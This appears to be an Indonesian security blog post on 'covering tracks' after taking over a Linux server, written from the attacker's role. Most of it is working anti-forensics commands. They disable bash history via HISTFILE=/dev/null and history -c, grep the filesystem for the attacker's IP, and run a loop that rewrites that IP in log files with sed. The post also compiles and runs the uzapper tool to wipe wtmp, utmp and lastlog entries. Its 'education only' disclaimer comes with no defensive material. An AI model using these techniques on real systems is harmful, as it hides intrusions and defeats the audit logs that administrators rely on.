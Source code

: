 ```yaml
---
layout: post
title: Covering Track! Menjadi Hantu pada Linux Server
categories: [Covering Track]
author: Novran Faathir
---
```


Sesuatu hal yang "SULIT TERDETEKSI" itu memanglah menarik, sama seperti melakukan Covering Track. Sebelumnya artikel ini sudah kita bahas pada Blog ZeroByte.ID yang lama, namun saya coba tulis ulang disini.

**Covering Track adalah** upaya untuk menghilangkan jejak setelah melakukan penyerangan terhadap aplikasi maupun Server.

Pada dasarnya seorang Administrator itu akan selalu berurusan dengan yang namanya Log File dan tentunya sebagai Attacker pun harus menghindar dari Log File tersebut.

### REMEMBER: For Education Purpose Only!

Artikel ini hanya untuk pembelajaran saja dan untuk kedepannya mungkin kami akan menulis tentang solusi untuk `Anti Covering Track`-nya juga.

Peran kita disini yaitu sebagai "Attacker" yang sudah melakukan Take-over sebuah Server yang menggunakan sistem operasi Linux, kemudian kita masuk kedalam Shell dari Server tersebut.

# BASH History

**HISTFILE**

HISTFILE adalah sebuah Environment Variable pada Linux yang digunakan untuk mengarahkan sebuah file history yang berisi command-command yang sebelumnya sudah pernah dieksekusi oleh User.

```
user1@linux:~$ echo $HISTFILE
/home/user1/.bash_history
```

```
user1@linux:~$ cat /home/user1/.bash_history
sudo apt-get clean
sudo vi /etc/apt/sources.list
sudo apt-get update
...
```

Supaya aktifitas kita sebagai Attacker tidak tercatat, lebih baik kita arahkan ke `/dev/null`.
```
user1@linux:~$ HISTFILE=/dev/null
user1@linux:~$ echo $HISTFILE
/dev/null
```

Namun ada langkah frustasi, kalau kita lupa mengarahkan BASH History sebelumnya (di-awal).

**Clean History**

```
user1@linux:~$ history -c
```

# Clean Your Public IP from Log File

Hal ini dapat dilakukan kalau kalian memiliki hak akses level "root" karena disini kita akan memanipulasi Log File tentunya.

Pertama-tama ketahuilah IP Public kita sendiri, kita dapat melihatnya melalui website:

<https://www.whatismyip.com/>

**Mencari Log File yang mencatat IP kita**

```
root@linux:~# grep -Rn 'YOUR IP' /var/log/ 2> /dev/null
```

Atau gunakan command di bawah ini untuk mencari LOG keseluruhan (dari root):

```
root@linux:~# grep -Rn 'YOUR IP' / 2> /dev/null
```

**NOTE:** Ubah `YOUR IP` menjadi IP Address kalian.

**Manipulasi IP Address pada Log File**

`Mengapa tidak dihapus saja LOG-nya?`

Jika Log File kita hapus, itu adalah tindakan yang gegabah dan tidak menutup kemungkinan `Administrator` akan melakukan eskalasi ke pihak `Provider`.

**Manipulasi Log**

Disini kita akan menggunakan perintah `sed`.

Contoh:
```
root@linux:~# sed 's/KATA ASLI/KATA GANTI/g' file
```

Supaya lebih cepat memanipulasi IP, kita jadikan script seperti di bawah ini:

```
for LOGFILE in $(grep -Rn 'YOUR IP' / 2> /dev/null | awk -F ':' '{print $1}' | sort -V | uniq)
do
sed 's/YOUR IP/FAKE IP/g' $LOGFILE
done
```

# Stealth from WTMP, UTMP, and Lastlog

- WTMP = mencatat setiap ada yang login/logoff
- UTMP = mencatat siapa yang sedang melakukan akses saat ini
- Lastlog = mencatat source address user yang melakukan login terakhir

**Uzapper Tool**

Tool ini digunakan untuk menghapus log umum pada sistem operasi Solaris, SunOS, IRIX, Linux, FreeBSD.

Kalian dapat unduh pada link di bawah ini:

- <https://packetstormsecurity.com/files/16378/uzapper.c.html>

Untuk melihat siapa yang sedang masuk dan melihat apa yang sedang mereka lakukan (berdasarkan sesi), kalian dapat menggunakan perintah `w`.

```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
  user1 pts/2 ???  2:52am 1                -sh
```

Compile Uzapper:
```
root@linux:~# gcc uzapper.c -o uzapper
```

Jalankan Uzapper:
```
root@linux:~# ./uzapper user1
```

Periksa kembali sesi yang aktif:
```
root@linux:~# w
1:23am up 6:21, 2 users, load average: 0.00, 0.01, 0.02
  User  tty   FROM login@ idle JCPU  PCPU  what
  root  pts/1 :0   2:21am 1    22:39 1.48s w
```

**user1** hilang, karena sudah di-wipe menggunakan Uzapper.

# Done!
Artikel tentang Covering Track ini hanya untuk pelajaran saja, pasti banyak yang bertanya-tanya:

```
Kenapa gak pake VPN aja? Biar gak ribet!
```

Silakan dijawab sendiri :)

Terima kasih.

Semoga artikel yang membahas tentang `Covering Track` akan terus berlanjut.
